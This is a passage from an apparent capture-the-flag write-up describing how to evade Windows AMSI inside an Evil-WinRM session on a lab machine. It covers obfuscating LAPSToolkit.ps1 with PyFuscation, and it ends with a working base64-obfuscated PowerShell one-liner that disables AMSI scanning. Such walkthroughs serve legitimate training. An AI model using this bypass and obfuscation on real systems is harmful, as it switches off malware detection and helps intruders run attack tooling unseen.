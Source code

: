 ```
[+] download
[+] menu
[+] exit
```

Unfortunately, the evil-winrm function for bypassing AMSI does not appear to function well on this box. Either the session is dropped immediately, or a success message is shown followed immediately by a dropped connection.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> Bypass-4MSI
Error: An error of type WinRM::WinRMWSManFault happened, message is [WSMAN ERROR CODE: 1726]: <f:WSManFault Code='1726' Machine='10.10.11.152' xmlns:f='http://schemas.microsoft.com/wbem/wsman/1/wsmanfault'><f:Message>The WSMan provider host process did not return a proper response.  A provider in the host process may have behaved improperly. </f:Message></f:WSManFault>                                                                                                 

Error: Exiting with code 1
```

We have two options going forward. We can either obsfucate LAPSToolkit.ps1 or try another method to bypass ASMI. I will show both routes.

Tool PyFuscation seemed to work incredibly well for this use case. 

https://github.com/CBHue/PyFuscation

The following command obsfucated functions, variables, and parameters in LAPSToolkit.ps1 and produced a directory with the following files: 

- 04022022_01_07_29.functions
- 04022022_01_07_29.parameters  
- 04022022_01_07_29.ps1
- 04022022_01_07_29.variables


```
python3 PyFuscation.py -fvp --ps LAPSToolkit.ps1
```

04022022_01_07_29.ps1 is the obsfucated version of LAPSToolkit.ps1

04022022_01_07_29.functions shows the original function names alongside the renamed function names, letting us know how we can call the functions after importing the obsfucated script.

```
Replacing: Get-LAPSComputers with: implemented
Replacing: Find-LAPSDelegatedGroups with: salutation
Replacing: Find-AdmPwdExtendedRights with: rheas
```

Alternatively, we can try another method of bypassing AMSI. The following site provides a base64 encoded payload which will successfully bypass AMSI.

https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/

```
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```
